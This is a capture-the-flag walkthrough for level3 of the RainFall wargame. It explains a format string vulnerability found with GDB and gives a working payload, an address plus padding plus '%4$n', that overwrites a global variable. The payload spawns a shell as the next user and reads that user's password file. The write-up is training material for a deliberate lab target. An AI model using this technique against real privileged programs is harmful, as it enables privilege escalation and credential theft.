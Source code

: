 ```sh
level3@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level3 level3   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level3 level3  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level3 level3 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level4 users  5366 Mar  6  2016 level3
-rw-r--r--+ 1 level3 level3   65 Sep 23  2015 .pass
-rw-r--r--  1 level3 level3  675 Apr  3  2012 .profile
level3@RainFall:~$ ./level3
42
42
level3@RainFall:~$ ./level3 42
42
42
level3@RainFall:~$
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info function
...
0x080484a4  v
0x0804851a  main
...
(gdb) disas v
...
   0x080484c7 <+35>:    call   0x80483a0 <fgets@plt>
   0x080484cc <+40>:    lea    -0x208(%ebp),%eax
   0x080484d2 <+46>:    mov    %eax,(%esp)
   0x080484d5 <+49>:    call   0x8048390 <printf@plt>
   0x080484da <+54>:    mov    0x804988c,%eax
   0x080484df <+59>:    cmp    $0x40,%eax
   0x080484e2 <+62>:    jne    0x8048518 <v+116>
...
```
We can find ```v()``` function which have ```fgets()``` and ```printf()```. \
and also cmp with 0x804998c and 0x40. this mean
```sh
(gdb) x/s 0x804988c
0x804988c <m>:   ""
```
```c
int	m;
if (64 == m)
{
	...
	system("/bin/sh");
}
```
So for enter in the if condition, we have to change m value with **printf vulnerability** (a.k.a format string vulnerability) [Ref](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/). \
Format string vulnerability is simply, if printf used without formatter, we can manipulate stack.
```c
char *str;
gets(str);
printf("%s", str); // good code
printf(str); // bad code
```
If we put the argument like ```"%x %x"```, printf will be pop the stack and show us.
```sh
level3@RainFall:~$ python -c 'print "BBBB %x %x %x %x %x %x %x"' > /tmp/exploit3
level3@RainFall:~$ cat /tmp/exploit3 | ./level3
BBBB 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078
```
So we can guess our standard input is saved in 4th position of stack. \
We will replace BBBB by the address of the variable ```m```. \
Formatter ```%n``` is write number of bytes printed by ```printf```. \
Example:
```c
printf("buffer %s: %n%s", "hello", &offset, "world");
printf("%*s", offset, "bye");
```
```sh
buffer hello: world
              bye
<------------>
<align by offset>
```
So we can put specific number in the address with ```%n```, 4$ mean 4th stack address. \
First, put variable ```m``` address, so it will be seated in 4th stack and add 60 bytes of "some value" (a * 60), and write the number of bytes printed by printf (%n) which is ```address(4 bytes) + some value(60 bytes) = 64``` in the 4th (4$) address of stack, where variable ```m``` is located.
```sh
level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "a" * 60 + "%4$n"' > /tmp/exploit3
level3@RainFall:~$ cat /tmp/exploit3 - | ./level3
�aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Wait what?!
whoami
level4
cat /home/user/level4/.pass
(hidden)
```
level3 passed !
